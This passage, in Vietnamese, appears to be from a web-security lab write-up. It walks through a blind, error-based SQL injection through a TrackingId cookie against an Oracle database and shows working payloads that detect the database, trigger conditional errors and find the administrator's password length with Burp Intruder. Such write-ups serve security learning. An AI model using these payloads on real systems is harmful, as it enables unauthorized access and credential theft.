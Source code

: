 Nhưng máy chủ lại xảy ra lỗi nên ta sẽ thử một query hợp lệ khác:

Cookie: TrackingId=i0G8Pe6NAq6h7m51' AND (SELECT '' FROM dual)='

Lúc này lỗi không còn xảy ra nên ta có thể đoán db hiện tại là Oracle. Ta sẽ thử conditional error trong SQL cheat sheet

![](Images/image49.png)

Với query: ' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a

Thì máy chủ sẽ xảy ra lỗi ( 1=1 -> True, then 1/0 -> lỗi chia cho 0). Tận dụng sự phản hồi này ta có thể check tên administrator và password length bằng query:

'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Dùng burp Intruder ta biết được password length = 20 (vì có tên user=administrator và password length > 19 là True còn > 20 là False)

![](Images/image50.png)
